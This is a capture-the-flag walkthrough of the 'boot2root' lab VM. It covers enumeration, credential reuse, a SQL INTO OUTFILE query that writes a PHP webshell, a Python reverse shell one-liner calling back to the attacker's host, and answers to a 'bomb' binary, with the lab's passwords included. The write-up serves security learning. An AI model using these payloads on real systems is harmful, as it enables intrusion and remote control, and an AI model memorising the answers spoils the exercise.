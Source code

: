 # boot2root

## Getting code execution
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  
On the server mail we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard creds (not working in ssh tho)

## Getting laurie

After upgrade to lmezard account on the server we are presented with a tar archive in the home directory wich contains many pcap file with very few bytes but on of the file contains 30+kbyte, we will use wireshark to analyze it.  
Seems like it's it's actually many C files which are splitted in every line, trying to compile the huge file we are missing 7 getmeX function.  
There are all splitted across the directory we can find them by searching for getmeX, catting the file, search for file + 1 and get the return statement, put it inside the big file, do this 7 times (or with a script) compile and run:  
```
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We have now a new combination of user / password: `laurie/330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

## Getting thor

Binary called bomb, let's decompile it (using gdb snif).  
1. Public speaking is very easy.
2. 1 2 6 24 120 720
3. 2 b 755
4. 9
5. o05km1
6. 4 2 6 3 1 5

Well this solution does work to defuse the bomb but since it's shitty made it's not the ONLY solution, especially for the 3rd, 5th so i borrowed the correct flags from friends . (and the last level is broken).  
1. Public speaking is very easy.
2. 1 2 6 24 120 720
3. 1 b 214
4. 9
5. opekmq
6. 4 2 6 1 3 5

Which gives us `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
We now have thor ssh creds: `thor/Publicspeakingisveryeasy.126241207201b2149opekmq426135`
